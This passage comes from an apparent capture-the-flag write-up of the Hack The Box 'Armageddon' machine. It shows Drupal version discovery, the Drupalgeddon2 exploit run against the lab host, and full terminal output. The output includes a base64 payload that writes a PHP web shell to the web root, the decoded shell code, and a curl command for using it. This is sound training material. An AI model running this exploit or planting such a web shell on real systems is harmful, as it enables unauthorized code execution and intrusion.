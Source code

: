 The open ports on the machine are **22** and **80**. These are all we'll need to proceed through the rest of the box. Let's take a look at what's on the web port.

### Port 80
Nmap has indicated already that it's a Drupal 7 site.  
![main_page](/posts/images/hack-the-box-armageddon-writeup/0_drupal_page.png)  
**Figure 1:** Nice little chicken drawing

We can view the `CHANGELOG.txt` file to get a more specific version number. In this case it is on version `7.56`.  
![drupal_version](/posts/images/hack-the-box-armageddon-writeup/0_drupal_version.png)  
**Figure 2:** Druapl version via CHANGELOG.txt

Running a quick `searchsploit drupal` reveals that versions `7.58` and below are susceptible to *Drupalgeddon2*, a remote code execution exploit.  
![searchsploit_drupal](/posts/images/hack-the-box-armageddon-writeup/searchsploit_drupal.png)  
**Figure 3:** Searchsploit reveals this site may be suseptable to Drupalgeddon2.

# Exploitation  
## Initial foothold  
To gain our initial foothold on the machine we'll use the exploit above. The first order of business is to add `10.10.10.233` to our `/etc/hosts` file as `armageddon.htb`. After this we'll install the required gem dependency via `sudo gem install highline`. After we transfer the exploit to the home directory, we'll execute it.                                 

```
┌──(kali㉿kali)-[~]
└─$ ruby 44449.rb http://armageddon.htb
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found  : http://armageddon.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo DMGWWYDY
[+] Result : DMGWWYDY
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://armageddon.htb/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
armageddon.htb>> whoami
apache
```